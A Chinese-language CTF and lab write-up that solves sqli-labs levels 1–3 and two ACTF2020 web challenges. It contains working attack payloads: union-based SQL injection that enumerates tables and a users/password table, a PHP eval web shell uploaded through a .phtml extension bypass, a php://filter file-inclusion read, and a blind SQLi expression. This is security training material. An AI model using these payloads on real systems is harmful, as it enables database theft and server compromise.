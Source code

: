 ## sqli-labs

### 0x01 搭建

为了方便一点，直接用docker拉镜像了

```dockerfile
docker search sqli-labs  #搜索
```

![image-20220713002056580](D:\Typora\note\CTF\web\web集训.assets\image-20220713002056580.png)

找到星级最高的

```dockerfile
docker pull acgpiano/sqli-labs  #下载
```

![image-20220713002129576](D:\Typora\note\CTF\web\web集训.assets\image-20220713002129576.png)

```
docker run --name sqli-labs -d -p 8080:80 acgpiano/sqli-labs  #启动
```

然后输入`ip:8080`就可进入sqli-labs

![image-20220713002309871](D:\Typora\note\CTF\web\web集训.assets\image-20220713002309871.png)

### 0x02 Less-1

因为是第一关嘛，所以没有任何过滤

先试试有几行数据返回

```sql
?id=1' order by 3;--+    #正常回显
?id=1' order by 4;--+    #无回显
```

说明有三行数据

然后联合查询查出数据库名

```sql
?id=0' union select 0,1,database();--+
```

查出数据库名`security`

然后查表名

```sql
?id=0' union select 0,table_schema,group_concat(table_name) from information_schema.tables where table_schema='security';--+
```

查出表名`emails,referers,uagents,users`

然后查出各表的列名

```sql
?id=0' union select 0,table_name,group_concat(column_name) from information_schema.columns where table_name='emails';--+
?id=0' union select 0,table_name,group_concat(column_name) from information_schema.columns where table_name='referers';--+
?id=0' union select 0,table_name,group_concat(column_name) from information_schema.columns where table_name='uagents';--+
?id=0' union select 0,table_name,group_concat(column_name) from information_schema.columns where table_name='users';--+
```

| 表名     | 列名                          |
| -------- | ----------------------------- |
| emails   | id,email_id                   |
| referers | id,referer,ip_address         |
| uagents  | id,uagent,ip_address,username |
| users    | id,username,password          |

要查数据的话就直接联合查询就好了

### 0x03 Less-2

相对于上关只是查询的语句没用引号包起来

上关的语句去掉0后面的单引号便可直接使用

### 0x03 Less-3

相对于第一关，查询的语句用单引号包裹后又用括号包了一次

在第一关的语句的`0'`后面加上`)`即可使用

## [ACTF2020 新生赛]Upload

先用bp抓包，随便上传一个图片

![image-20220713004304968](D:\Typora\note\CTF\web\web集训.assets\image-20220713004304968.png)

然后内容改为`<?php eval($_POST[1]);?>`

再改后缀，改成php或php4都不行，最后改为phtml发现可以，这样一句话木马就上传成功了

直接蚁剑连接找flag

![image-20220713004504451](D:\Typora\note\CTF\web\web集训.assets\image-20220713004504451.png)

## [ACTF2020 新生赛]Include

打开题目，点TIPS，发现URL上面有`?file=flag.php`

已经很明显了，直接用php伪协议读取

```web-idl
http://81ed096f-fe93-42cb-af08-1ced7427897d.node4.buuoj.cn:81/?file=php://filter/convert.base64-encode/resource=flag.php
```

得到

```
PD9waHAKZWNobyAiQ2FuIHlvdSBmaW5kIG91dCB0aGUgZmxhZz8iOwovL2ZsYWd7OWZhYzkzZmMtMjAxMy00NjA5LWIzNWQtMTUzODJhODI3Y2Q1fQo=
```

base64解码得到

```php
<?php
echo "Can you find out the flag?";
//flag{9fac93fc-2013-4609-b35d-15382a827cd5}
```

```sql
1^(ascii(substr((select(flag)from(flag)),1,1)>0))^1
```


